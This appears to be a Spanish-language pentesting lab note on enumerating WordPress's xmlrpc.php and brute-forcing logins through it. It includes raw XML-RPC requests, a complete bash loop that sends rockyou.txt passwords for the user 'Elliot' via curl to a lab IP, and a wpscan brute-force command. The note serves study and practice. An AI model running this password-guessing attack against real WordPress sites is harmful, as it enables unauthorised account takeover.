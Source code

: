 # ENUMERAR XMLRPC + ATAQUES FUERZA BRUTA WORDPRESS
También es posible que podamos enumerar este archivo el cual nos sirve para obtener credenciales de usuarios, ya que se trata de un archivo que permite la comunicación de wordpress y otros sistemas usando php; y si lo buscamos en el navegador vemos que existe pero que sólo tramita peticiones por POST:
![[Pasted image 20230421133400.png]]
Por tanto con curl vamos a enviarle una petición por POST y vemos que sí nos devuelve algo en XML:
![[Pasted image 20230421133532.png]]
Y ahora que vemos que existe este fichero, buscamos en google como explotar vulnerabilidades haciendo uso de este fichero:
![[Pasted image 20230421133725.png]]
Y nos dicen que tenemos que tramitar esto:
![[Pasted image 20230421133752.png]]
```php
POST /xmlrpc.php HTTP/1.1
Host: example.com
Content-Length: 135

<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```
Por tanto pegamos este código en un fichero xml:
![[Pasted image 20230421133907.png]]
Y ahora este fichero lo tramitamos por POST contra el xmlrpc de wordpress:
![[Pasted image 20230421134022.png]]
Y el servidor nos responde con todos los métodos disponibles:
![[Pasted image 20230421134102.png]]
Y si miramos más en la página, vemos que nos muestran como hacer un ataque de fuerza bruta:
![[Pasted image 20230421134340.png]]
```php
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
```
Y vemos que aquí si ponemos unas credenciales correctas y lo ejecutamos como antes, nos va a funcionar correctamente:
![[Pasted image 20230421134520.png]]
![[Pasted image 20230421134540.png]]
En este punto podríamos hacer un ataque de fuerza bruta, tanto con un script de bash o con la propia herramienta wpscan:
```bash
#!/bin/bash

#!/bin/bash

function salir() {
    exit 1
}

trap salir SIGINT

for i in $(cat rockyou.txt); do
    variable=$(cat <<FIN
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>Elliot</value></param> 
<param><value>$i</value></param> 
</params>     
</methodCall>
FIN
    )

    echo -e "$variable" >> enviar.xml
    echo -e "[+] Probamos con la contraseña $i"

    curl -s -X POST 'http://10.10.126.89/xmlrpc.php' -d@enviar.xml >> log.log

    if [ ! "$(cat log.log | grep 'Incorrect username or password.')" ]; then
         echo -e "[+] La contraseña para Elliot es $i"
         exit 0
    fi

    sleep 1

rm log.log enviar.xml

done
```
![[Pasted image 20230421143424.png]]
O también directamente desde la herramienta, lo cual será más rápido:
```bash
wpscan --url <url> -U <user> -P <pass>
```
![[Pasted image 20230421143525.png]]
Y nos la encuentra:
![[Pasted image 20230421143548.png]]
